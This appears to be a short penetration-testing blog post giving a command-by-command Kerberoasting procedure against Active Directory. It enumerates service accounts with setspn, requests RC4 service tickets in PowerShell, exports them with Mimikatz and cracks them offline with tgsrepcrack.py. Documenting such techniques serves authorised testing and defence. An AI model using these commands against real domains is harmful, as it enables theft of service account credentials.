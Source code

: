 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Kerberoasting"
date:   2019-07-07 15:30:10 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Kerberoasting
  - Windows Security
  - Active Directory Hacking
  - Kerberos
---
```

<pre>
- Firstly purge all the tickets
  - klist purge
  - klist
 
 - SPN scan for service accounts
    - setspn -T domain_name -F -Q */*
  
 - Now request Service Ticket (TGS) and it should be in RC4 encryption type
    - Add-Type -AssemblyName System.IdentityModel
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN Account'
    - klist
 
 - Export kerberos tickets using Mimikatz
    - mimikatz# kerberos::list /export
  
 - Copy exported service ticket to Kali for kerberoasting, based on the wordlist we would be able to crack the password
    - ./tgsrepcrack.py wordlist.txt ticket_name.kirbi
</pre>
